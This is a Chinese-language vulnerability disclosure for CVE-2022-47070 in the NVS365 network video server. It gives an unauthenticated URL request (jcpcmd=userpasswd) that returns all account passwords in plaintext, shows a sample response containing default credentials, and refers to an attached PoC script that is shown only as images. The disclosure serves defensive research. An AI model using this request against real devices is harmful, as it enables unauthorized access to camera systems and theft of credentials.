

# 网络视频服务器：NVS365（密码信息未授权访问漏洞）(CVE-2022-47070)
# [CVSS:7.5分:点击跳转](https://nvd.nist.gov/vuln/detail/CVE-2022-47070 )

# [该漏洞关联下一份漏洞 《NVS365网络视频服务器任意命令执行》](https://github.com/Sylon001/NVS-365-Camera/tree/master/NVS-365-V01%20camera%20command%20execution)

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

{width="5.764583333333333in"
height="1.9277777777777778in"}

官网产品介绍：

http://www.nvs365.com/docs/spec.html

{width="5.7625in"
height="1.7430555555555556in"}

第三方产品介绍：

<http://www.sightwatch.com/>

{width="5.758333333333334in"
height="4.003472222222222in"}

漏洞版本：

NVS-365-V01

{width="5.764583333333333in"
height="3.66875in"}

漏洞分析：

输入一个错误的密码后，会向服务端发送两次url

(1)http://ip:prot/?jcpcmd=authen%20-act%20list&\_=1669884669901

(2)http://ip:prot/?jcpcmd=userpasswd%20-act%20list&\_=1669884673854

而 第二个包 服务端会返回正确的密码信息。

szJcpResult=\"\[Success\]user0=admin;passwd0=9999;group0=0;user1=operator;passwd1=operator;group1=1;user2=user;passwd2=user;group2=2;;\";

{width="5.7652777777777775in"
height="2.5840277777777776in"}

直接访问url 如图：

{width="5.758333333333334in"
height="1.145138888888889in"}

POC脚本未授权访问如下，详情可看附件py文件

{width="5.764583333333333in"
height="3.5395833333333333in"}

{width="5.7555555555555555in"
height="3.6638888888888888in"}

运行如下

{width="5.766666666666667in"
height="5.934027777777778in"}

## security researcher
name1:   Sylon  

Please contact email: peisylon@foxmail.com
